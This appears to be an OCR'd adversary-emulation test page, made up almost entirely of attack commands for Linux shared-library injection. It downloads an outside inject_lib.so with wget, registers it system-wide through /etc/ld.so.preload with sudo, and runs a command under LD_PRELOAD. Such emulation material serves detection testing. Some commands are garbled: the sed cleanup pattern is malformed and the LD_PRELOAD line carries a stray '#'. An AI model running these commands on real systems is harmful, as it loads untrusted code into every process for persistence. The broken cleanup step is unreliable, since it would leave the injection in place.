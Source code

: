  
 wget -P /tmp/ https://github.com/jage1nf/testlib/blob/main/inject_lib.so  
  
1. Shared Library Injection via /etc/ld.so.preload  
Attack Commands:  
sudo sh -c 'echo /tmp/inject_lib.so > /etc/ld.so.preload'  
Cleanup Commands:  
sudo sed -i 's##/tmp/inject_lib.so##' /etc/ld.so.preload  
  
2. Shared Library Injection via LD_PRELOAD  
Attack Commands:  
LD_PRELOAD=#/tmp/inject_lib.so ls  
